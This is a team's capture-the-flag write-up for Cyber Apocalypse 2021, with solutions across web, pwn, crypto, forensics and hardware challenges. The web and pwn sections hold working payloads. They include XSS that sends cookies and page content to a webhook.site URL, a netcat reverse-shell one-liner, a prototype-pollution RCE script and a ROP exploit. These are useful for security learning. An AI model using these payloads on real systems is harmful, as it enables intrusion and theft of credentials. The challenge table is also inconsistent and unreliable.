

# Cyber Apocalypse 2021

The CTF was active from 19 Apr, 2021 22:00 until 24 Apr, 2021 08:00.

Participants: sinfulz, Fugl, Legacyy, Pwning, payl0ad, x3ph, bread, firedank.


## Overview

 Title          | Category      | Points        | Flag         |
| ------------- | ------------- | ------------- | ------------- |
| BlitzProp       | Web           | 300           |               |             
| Inspector Gadget       | Web           | 400           |               |
| DaaS | Web           | 125           |
| MiniSTRyplace     | Crypto        | 150           | CHTB{}         
| Caas| Crypto        | 200           |               | 
| Wild Goose Hunt | Misc| 100           |               |
| E.Tree          | Misc          | 125           | CHTB{}             
| The Galatic Times | Misc          | 175           | CHTB{}
| Cessation    | Misc          | 400           |               |
| emoji voting| Misc        | 200           |               |             
| Alien compliant form       | Pwn           | 200           |               | 
| Starfleet     | Pwn           | 150           |               |
| Bug Report        | Pwn           | 600           |               |             
| Controller     | Reversing     | 100           | CHTB{}               | 
| Minefield       | Reversing     | 125           | CHTB{}               |
| Nintendo Base64         | Reversing     | 400           |               |             
| PhaseStream 1    | Reversing     | 600           |               | 
| PhaseStream 2        | Stego         | 425           | CHTB{} 
| PhaseStream 3| OSINT        | 225 |CHTB{}|
| PhaseStream 4        | Mobile        | 400           |               | 

# Web

##

## BlitzProp

Solved By: bread
found similar chal, which points to [https://blog.p6.is/AST-Injection/#Pug](https://blog.p6.is/AST-Injection/#Pug)

first i ran

```bash
execSync(`ls -l /app > /app/static/out`)
```

which gave me the name of the flag
then i changed  the payload to  the following to get the flag.

```bash
import requests

TARGET_URL = 'http://138.68.151.248:30910'

# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = {
    "song.name":"The Goose went wild",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process')."
    }
    })

print(r.status_code)
print(r.text)
print(requests.get(TARGET_URL+'/static/out').text)
```

```
CHTB{p0llute_with_styl3}
```

##

## Inspector Gadget

Solved By: pwning

##

## DaaS

Solved By: firedank

We see that the server is running laravel. We also get a hint in the challenge in the info that the page is running in debug mode
If we search for some recent laravel exploits we find this blog post:

[https://www.ambionics.io/blog/laravel-debug-rce](https://www.ambionics.io/blog/laravel-debug-rce)

We can then search some more and we find a github page with a POC for the exploit

[https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits)

If we create a phar file as the POC demonstrates and run the python script we get rce and we can find the flag in the root directory of the server:


```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```

##

## MiniSTRyplace

Solved By:

##

## Caas

Solved By: PJ

I started off by downloading source code for Caas web_caas.zip Upon reviewing the source code on file 'CommandModel.php' within `web_caas\challenge\models` I noticed the following interesting string of code `$this->command = "curl -sL " . escapeshellcmd($url)`.  The code indicates that a raw curl command is run with the flags -s and -L which executes silently and automatically follows redirects.  Knowing this I took advantage of a basic technique utilizing a the file protocol to read files.
A simple working poc would be `file://127.0.0.1//etc/passwd` which simply displays the passwd file. From here I was able to directly access the webservers directory and access the flag file by typing `file://127.0.0.1/flag`.

```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```
##

## Wild Goose Hunt

Solved By: Legacyy & PJ

Looking at the page mongo source, we have some nosql, with a username of admin, and admin's password is the flag, we can authenticate easily

PJ pointed out that we can use logical operators to bypass authentication, in this case, we can use regex to brute force the password. I did so using the script below

```python
import requests

HOST = "http://138.68.140.24:30300/api/login"

valid_characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}{!"

post_data = {
    "username": "admin",
    "password[$regex]": ""
}

password = "^CHTB"

while password[-1] != "}":
    for char in valid_characters:
        post_data["password[$regex]"] = password + char
        r = requests.post(HOST, data=post_data)
        # If logs in successfully...
        if ("welcome back" in r.content.decode("utf-8")):
            password += char
            print(password[1:])
            break
```

##

## E.Tree

Solved By: Legacyy?

##

## Wild Goose Hunt

Solved By: Legacyy & PJ

##

## Extortion

Solved By: ?

##

## The Galatic Times

Solved By: Legacyy

This challenge is an XSS based challenge, very similar to *Alien Complain Form* and *Bug Report.*

When you send "feedback" to `/feedback`, it is shown on `/list`which is only accessible via `127.0.0.1`, aka the bot that will automatically navigate to that page once the feedback is sent. The catch however is this CSP policy

```html
default-src 'self';
script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;
style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;
font-src 'self' https://fonts.gstatic.com/;
img-src 'self' data:;
child-src 'none';object-src 'none'
```

The second line here is our vulnerability - we are able to run the eval command as long as our script comes from [`https://cdnjs.cloudflare.com/`](https://cdnjs.cloudflare.com/)

This leads us to using an adapted version of this payload: [https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-eval-js-cdn](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-eval-js-cdn)

The adaptation that needs to be made is as follows...

The first url must be changed to an appropriate endpoint which we are listening on to capture the "stolen data" (aka get output from our XSS attack), and the second url must be changed to [`http://127.0.0.1:1337/alien`](http://127.0.0.1:1337/alien) because our flag is located at `/alien` meaning we want to grab the contents of the page. This is because the CSP states `default-src 'self'` meaning requests can only be made to the same domain that the document was loaded with, which the bot accesses [`http://127.0.0.1:1337/list`](http://127.0.0.1:1337/list).

From here we simply do some more work with js string manipulation to further shorten the base64 output sent to the server, this is done to avoid invalid requests being made when a url is too long etc. So I ended up with the following payload... Enjoy!

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };var z = new XMLHttpRequest();z.onreadystatechange = function() {if (z.responseText) location = "https://webhook.site/42bfc7b1-e0cf-4e32-b83c-46e83022e703/?data=" + btoa(unescape(encodeURIComponent(z.responseText.substring(z.responseText.search("CHTB{"), z.responseText.search("CHTB{")+50))))};z.open("GET", "http://127.0.0.1:1337/alien", false);z.send();//');}} </div>
```

Base64 decoding the given output gives us the flag!

```
CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}
```
##

## Cessation

Solved By: bread

To bypass the regex you need to have break the match.
regex to beat `http://.*/shutdown`

One trick here is that websites do not care how many slashes you have .
so...

```
http://206.189.121.131:32590//shutdown
```

boom flag!

```
CHTB{c3ss4t10n_n33dsync1ng#@$?}
```

##

## emoji voting

Solved By: bread

##

## Alien compliant form

Solved By: Legacyy

```html
<meta name="language" content="0;http://127.0.0.1:1337/list?callback=var x=function(data){document.location=`https://webhook.site/42bfc7b1-e0cf-4e32-b83c-46e83022e703/?${document.cookie}`;}"HTTP-EQUIV="refresh"" />
```

##

## Starfleet

Solved By: Legacyy

In the web form, enter the following one liner, changing your ip and port to catch a shell :)

```
makelaris+{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 84.69.106.167 4242 >/tmp/f')")()}}@hackthebox.eu
```

Execute:

```
cd /
```

Then execute:

```
./readflag
```

We then get the flag:

```
CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}
```

##

## Bug Report

Solved By: Legacyy

This challenge is a fairly simple XSS, the catch is that the bot is using selenium which has some very unique properties when it comes to cookie management within a browser.

When you submit a url to be "bug checked" a bot makes a get request to the given url. This is especially useful to us because the bot has a cookie containing our flag as shown by the following `[bot.py](http://bot.py)` code snippet:

```python
browser.get('http://127.0.0.1:1337/')

browser.add_cookie({
    'name': 'flag',
    'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
})

try:
    browser.get(url)
    WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
except:
    pass
finally:
    browser.quit()
```

Paying close attention, before processing our request, the bot makes a get request to [`http://127.0.0.1:1337/`](http://127.0.0.1:1337/), meaning that due to how selenium `browser.add_cookie()` works, it will assign the cookie to that domain, meaning our XSS payload must refer to [`http://127.0.0.1:1337`](http://127.0.0.1:1337/). This is perfect for us because there is an XSS on [`http://127.0.0.1:1337/](http://127.0.0.1:1337/)<script>alert(1)</script>`. Using the above information and selenium's strange cookie behaviour, this is the format for a functional payload for this challenge :)

```javascript
http://127.0.0.1:1337/<script>document.location=`http://YOUR_COOKIE_STEALER_HERE/?c=${document.cookie}`</script>
```

And there we have the flag!


```
CHTB{th1s_1s_my_bug_r3p0rt}
```
# Pwn

##

## Controller

Solved By: bread

```python
from pwn import *
from one_gadget import generate_one_gadget

onegadget = next(generate_one_gadget('./libc.so.6'))
    
#p = process("./controller")
p = remote('165.227.228.41', 32435)
elf = ELF("./controller")
libc = ELF("./libc.so.6")

MAIN = elf.symbols['main']
PUTS = elf.plt['puts']
POPRDI = 0x4011d3
FUNC_GOT = elf.got["exit"]
padding = b"A" * 40

#####
# leak libc
#######

payload = padding + p64(POPRDI) + p64(FUNC_GOT) + p64(PUTS) + p64(MAIN)

p.sendlineafter(":", "-182 -359")
p.sendlineafter(">", "3")
p.sendlineafter(">", payload)
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Leaked LIBC address, puts: {hex(leak)}")

libc.address = leak - libc.symbols['exit']
log.info(f"LIBC base @ {hex(libc.address)}")

# get libc stuff
BINSH = next(libc.search(b"/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

####
# Exploit
###

# setuid(0)
payload += padding + p64(POPRDI) + p64(0x0) + p64(libc.symbols['setuid']) + p64(elf.symbols['main'])
p.sendlineafter(":", "-182 -359")
p.sendlineafter(">", "3")
p.sendlineafter(">", payload)

log.info(f"POP_RDI {hex(POPRDI)}")
log.info(f"bin/sh {hex(BINSH)}")
log.info(f"system {hex(SYSTEM)}")
log.info(f"exit {hex(EXIT)}")

# One gadget not system("/bin/sh")
payload = padding +  p64(libc.address + onegadget) # p64(POPRDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)
p.sendlineafter(":", "-182 -359")
p.sendlineafter(">", "3")
p.sendlineafter(">", payload)
p.interactive()
```

```
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```

##

## Minefield

Solved By: bread

```python
from pwn import *

#p = process("./minefield")
p = remote('188.166.145.178', 32457)
elf = ELF("./minefield")

p.sendlineafter(">", "2")
p.sendlineafter(":", str(int("601078",16))) # where
p.sendlineafter(":", str(elf.symbols["_"])) # what
# 2 x strtoull plus *puVar1 = uVar2;  ===   # write
p.interactive()                             # flag
```

```
CHTB{d3struct0r5_m1n3f13ld}
```

# Crypto

##

## Nintendo Base64

Solved By: ?

##

## PhaseStream 1

Solved By: ?

##

## PhaseStream 2

Solved By: Legacyy

```python
with open("phasestream2_output.txt", "r") as f:
    lines = f.read().split("\n")

for i in range(0, len(lines)):
    lines[i] = bytearray.fromhex(lines[i])

found = False
for i in range(1, 256):
    for line in lines:
        res = ""
        for char in line:
            res += chr(char ^ i)
        if "HTB{" in res:
            found = True
            break
    if found:
        break

print(res)
```

flag:
```
CHTB{}
```

##

## PhaseStream 3

Solved By: Legacyy

```python
with open("./phasestream3_output.txt", "r") as f:
    out = f.read().split("\n")
    quote_out = bytearray.fromhex(out[0])
    flag_out = bytearray.fromhex(out[1])
    del out

quote = b"No right of private conversation was enumerated in the Constitution. I don't suppose it occurred to anyone at the time that it could be prevented."

key = b""
for i in range(0, 23):
    key += bytes([quote_out[i] ^ quote[i]])

flag = b""
for i in range(0, 23):
    flag += bytes([key[i] ^ flag_out[i]])

print(flag.decode('latin1'))
```

flag:
```
CHTB{}
```

##

## SoulCrabber

Solved By: Legacyy

We can take the source rust file and make a few modifications to allow us to easily get test outputs within the console...
Use this site if you dont wanna install rust

*[https://play.rust-lang.org/](https://play.rust-lang.org/)*

```python
use rand::{Rng,SeedableRng};
use rand::rngs::StdRng;

fn get_rng() -> StdRng {
    let seed = 13371337;
    return StdRng::seed_from_u64(seed);
}

fn rand_xor(input : String) -> String {
    let mut rng = get_rng();
    return input
        .chars()
        .into_iter()
        .map(|c| format!("{:02x}", (c as u8 ^ rng.gen::<u8>())))
        .collect::<Vec<String>>()
        .join("");
}

fn main() -> std::io::Result<()> {
    let flag = String::from("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    let xored = rand_xor(flag);
    println!("{}", xored);
    Ok(())
}
```

We can then xor the output `19500187e1ba0b5bf3e27914c83f1ffd67123543ffc3ae4a4d22a9d54f2a5a832354a1c67cec35d50f3dd9a58e496f0f800e358bae` with our `A`'s and get the xor key, this is consistent between runs due to having a constant seed.

This gives us a key of `581140c6a0fb4a1ab2a33855897e5ebc26537402be82ef0b0c63e8940e6b1bc26215e0873dad74944e7c98e4cf082e4ec14f74caef which we can xor with 1b591484db962f7782d1410afa4a388f7930067bcef6df546a57d9f873` to get the flag!

```
CHTB{mem0ry_s4f3_crypt0_f41l}
```

##

## PhaseStream 4

Solved By: bread

AES-CTR is vulnerable to plaintext. Both encrypted texts use the same key.

Since we know that the flag will contain `CTHB{` we can XOR that against the start of the encrypted flag and get part of the key, Then, we use that to get the start of the quote.

We start with:

`2767868b7e`

XOR

`CHTB{`

=

`642fd2c905`

XOR

`2d0fb3a56a`

=

`I alon`

So, if we google for " `I alon`" (and i guessed it was "I alone quote") we find Mother Teresa.

`2d0fb3a56aa66e1e44cffc97f3a2e030feab144124e73c76d5d22f6ce01c46e73a50b0edc1a2bd243f9578b745438b00720870e3118194cbb438149e3cc9c0844d640ecdb1e71754c24bf43bf3fd0f9719f74c7179b6816e687fa576abad1955`

XOR

`I alone cannot change the world, but I can cast a stone across the waters to create many ripples.`

=

`642fd2c905c80b3e27ae92f99cd6c05396ca7a2641c7481eb0f25803927022cb1a32c599e1eb9d475efb58d42430ff20132803977eeff1ebd55b66f14fbae0f025012ebad0937226b16b8054d39e7df27883295114d7ef17480dcc06dbc17c26`

XOR

`2767868b7ebb7f4c42cfffa6ffbfb03bf3b8097936ae3c76ef803d76e11546947157bcea9599f826338807b55655a05666446df20c8e9387b004129e10d18e9f526f71cabcf21b48965ae36fcfee1e820cf1076f65`

=
`CHTB{stream_ciphers_with_reused_keystreams_are_Vulnerable_to_known_plain'1c;pcptr.>q`

Which is close enough to guess the remaining flag:

```
CHTB{stream_ciphers_with_reused_keystreams_are_vulnerable_to_known_plaintext_attacks}
```

##

## RSA jam

Solved By: Legacyy & payl0ad

# Reversing

##

## Authenticator

Solved By: Legacyy

##

## Passphrase

Solved By: Legacyy

##

## Backdoor

Solved By: firedank

# Forensics

##

## Oldest trick in the book

Solved By: payl0ad

##

## Key mission

Solved By: bread

I googled 'usb keystrokes CTF' and found [https://blog.stayontarget.org/2019/03/decoding-mixed-case-usb-keystrokes-from.html](https://blog.stayontarget.org/2019/03/decoding-mixed-case-usb-keystrokes-from.html)

But, this isnt 'left over data', so i changed the 'extraction' step to:

```bash
tshark -r key_mission.pcap -V | grep "HID Data" | cut -d\   -f3 > test
python3 solver.py test
I aam ssendinfdeldelg ssecrretary's loccation oveer this tottally encrypted channel to make surre no one elsse will be able to  rreeatdeldeld itt exceppt of us. Tthis informmaation iss confiddential and must not be sharred with anyone elsse. Tthe  ssecrretary's hidden looccation is CHTB{a_place=3deldel-3deldel_3deldeldel3_fAr_fAar_awway_ffr0m_eearth}Enter
```

I did the manual dels
`CHTB{a_place3_fAr_fAar_awway_ffr0m_eearth}`
Although, it was still wrong so I cleaned the flag up abit and the below flag was correct:
`CHTB{a_place3_fAr_fAr_awway_ffr0m_eearth}`

##

## Invitation

Solved By: Fugl

I found an online tool to decompile macros in word.

I then replaced all string variables with "first", "second", "......... so forth for ease of working. 

I then made more string modifications to get one big chunk of hex for each string. 

I ran it through cyberchef with decode_16LE(from_base64(from_hex(code))) and stitched together each variable. 

Powershell code then appeared.

I then ran the non-payload parts, and I got the flag in two chunks:
```powershell
PS C:\Users\Birb\Desktop> get-item -Path "HKCU:\Software\$($regp)" | fl

[...]
PSChildName   : CHTB{maldocs_are
[...]

PS C:\Users\Birb\Desktop> $($regn)
_the_new_meta}
```

Putting the flag together:
```CHTB{maldocs_are_the_new_meta}```

##

## AlienPhish

Solved By: Fugl

1. Run file through app.any.run ( [https://any.run/report/00abacd6fe8f37d21983c84c0fceb9bf56af8b2ab39a19798b7f773c8d032db0/c25bfa2e-4b55-48f9-9f9f-39f1319c09ea#registry](https://any.run/report/00abacd6fe8f37d21983c84c0fceb9bf56af8b2ab39a19798b7f773c8d032db0/c25bfa2e-4b55-48f9-9f9f-39f1319c09ea#registry) and look at the exe name the final powershell process tries to write to. 
2. The filename is the flag:
Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99  -->  Base64 decode (alphabet (important!!): A-Za-z0-9-_

The flag was given as below.
```CHTB{pH1sHiNg_w0_m4cr0s???}```

##

## Low Energy Crypto

Solved By: Fugl & Legacyy

From the dump we locate and find the public key and what looks to be an encrypted reply:
```bash
-----BEGIN PUBLIC KEY-----
MGowDQYJKoZIhvcNAQEBBQADWQAwVgJBAKKPHxnmkWVC4fje7KMbWZf07zR10D0m
B9fjj4tlGkPOW+f8JGzgYJRWboekcnZfiQrLRhA3REn1lUKkRAnUqAkCEQDL/3Li
4l+RI2g0FqJvf3ff
-----END PUBLIC KEY-----


0000   39 29 69 b0 18 ff a0 93 b9 ab 5e 45 ba 86 b4 aa
0010   07 0e 78 b8 39 ab f1 13 77 e7 83 62 6d 7f 9c 40
0020   91 39 2a ef 8e 13 ae 9a 22 84 42 88 e2 d2 7f 63
0030   d2 eb d0 fb 90 87 10 16 fd e8 70 77 d5 0a e5 38
0040   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0050   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0060   00 00 00 00 00
```

Legacyy then did some Python voodoo and we got the below:
```python
from Crypto.Util.number import long_to_bytes
p = 92270847179792937622745249326651258492889546364106258880217519938223418249279
q = 92270847179792937622745249326651258492889546364106258880217519938223418258871
n = p * q
e = 271159649013582993327688821275872950239
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)

ct = 0x392969b018ffa093b9ab5e45ba86b4aa070e78b839abf11377e783626d7f9c4091392aef8e13ae9a22844288e2d27f63d2ebd0fb90871016fde87077d50ae538
pt = pow(ct, d, n)

print(long_to_bytes(pt))
```

Which gave us the flag:
```CHTB{5p34k_fr13nd_4nd_3n73r}```

# Hardware

##

## Serial Logs

Solved By: Fugl

Load the capture file into Logic 2. From the hints in the challenge we suppose it is serial and NFC (access control and IoT suggests NFC). We look up the bitrate for NFC which starts at 125 kbits, and key that in. Doing so we get:

```bash
[...]
[LOG] Connection from 4b1186d29d6b97f290844407273044e5202ddf8922163077b4a82615fdb22376
[LOG] Connection from 4b1186d29d6b97f290844407273044e5202ddf8922163077b4a82615fdb22376
[LOG] Connection from 4b1186d29d6b97f290844407273044e5202ddf8922163077b4a82615fdb22376
[ERR] Noise detected in channel. Swithcing baud to backup value
\xCE\xF2p\xBE\xCC>\xBC\xBE>|@~<\xCE|\xBE\xC2\xB....................
```

The baud is then changed according to the log in preparation for backing up. Using the standard baud rates found at [https://en.wikipedia.org/wiki/Serial_port#Speed](https://en.wikipedia.org/wiki/Serial_port#Speed) we try 76800 after a few failed attempts and get:

```bash
[...]
[LOG] Connection from b1759332e4b7bc6b14b7b12b90d350f811144180e2129bdd313b85b1ee15e6b1
[LOG] Connection from ab290d3a380f04c2f0db98f42d5b7adea2bd0723fa38e0621fb3d7c1c2808284
[LOG] Connection from a7e6ec5bb39a554e97143d19d3bfa28a9bbef68fa6ecab3b3ef33919547278d4
[LOG] Connection from 099319f700d8d5f287387c81e6f20384c368a9de27f992f71c1de363c597afd4
[LOG] Connection from ab290d3a380f04c2f0db98f42d5b7adea2bd0723fa38e0621fb3d7c1c2808284
[LOG] Connection from CHTB{wh47?!_f23qu3ncy_h0pp1n9_1n_4_532141_p2070c01?!!!52}
[LOG] Connection from CHTB{wh47?!_f23qu3ncy_h0pp1n9_1n_4_532141_p2070c01?!!!52}
```

The above logs contain the flag: ```CHTB{wh47?!_f23qu3ncy_h0pp1n9_1n_4_532141_p2070c01?!!!52}```

##

## Compromised

Solved By: Fugl



We are told by the challenge tip that this is a serial network with multiple slaves. Notice the highlighted lines in the picture showing the slave transferring the flag (as we soon will discover) and another slave doing its own thing (0x2C and 0x34 respectively). If we grab the output and look at the bytes only sent to 0x2C, we get:

```bash
0x43 0x48 0x54 0x42 0x7B 0x6E 0x75 0x31 0x31 0x5F0x37 0x33 0x32 0x6D 0x31 0x6E 0x34 0x37 0x30 0x32 0x35 0x5F 0x63 0x34 0x6E 0x5F 0x38 0x32 0x33 0x34 0x6B 0x5F 0x34 0x5F 0x35 0x33 0x32 0x31 0x34 0x31 0x5F 0x35 0x79 0x35 0x37 0x33 0x6D 0x21 0x40 0x35 0x32 0x29 0x23 0x40 0x25 0x7D
```

which translates to the flag:

```
CHTB{nu11_732m1n47025_c4n_8234k_4_532141_5y573m!@52)#@%}
```

##

## Secure

Solved By: Fugl

We are told to read MicroSD data so I start Googling how to do that and find

[https://support.saleae.com/tutorials/example-projects/how-to-analyze-spi](https://support.saleae.com/tutorials/example-projects/how-to-analyze-spi)

which shows an example setup. Turns out SPI is just what we need. SPI is Serial Peripheral Interface which is "is a communication protocol often used between processors and devices that require a relatively fast interface, such as shift registers, **flash memory**, and some sensors.".

So we set up Logic 2 to read the capture with an SPI analyzer setting channels 0 and 1 as MISO and MOSI, channel 3 as Enable and channel 4 as clock. This gives output along the lines of:

```bash
0xFF/0xFF 0x40/0xFF 0x00/0xFF 0x00/0xFF 0x00/0xFF 0x00/0xFF 0x95/0xFF 0xFF/0xFF 0xFF/0x01 0xFF/0xFF 0x48/0xFF 0x00/0xFF 0x00/0xFF 0x01/0xFF 0xAA/0xFF 0x87/0xFF 0xFF/0xFF 0xFF/0x01 0xFF/0x00 0xFF/0x00 0xFF/0x01 0xFF/0xAA 0xFF/0xFF 0x77/0xFF 0x00/0xFF 0x00/0xFF 0x00/0xFF 0x00/0xFF 0xFF/0xFF 0xFF/0xFF 0xFF/0x01 0xFF/0xFF 0x69/0xFF 0x40/0xFF 0x00/0xFF ........
```

Saving that output in a text file and using a small Python script

```python
for pair in open('secure.txt').read().split(' '):
   print(pair.split('/')[0], end='')  # change to pair.split('/')[1] for MOSI
```

we print the raw data and read the output From Hex to ASCII. Reading MOSI we get:

```bash
[...]
....¨rPrP...¨rP......å..f.s.e.v...Úe.n.t.s.d.....ÿÿÿÿåSEVEN~1   ..d¦vxPxP..¦vxP......å0      TXT .Âõ.sP6R..8®sP......A.._.1.0.....ít.x.t...ÿÿÿÿ..ÿÿÿÿ2.ÿÿÿÿÿÿÿÿ.ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿþCHTB{5P1_15_c0mm0n_0n_m3m02y_d3v1c35_!@52}
[...]
```

where we see the flag at the end of this dump:

```
CHTB{5P1_15_c0mm0n_0n_m3m02y_d3v1c35_!@52}
```
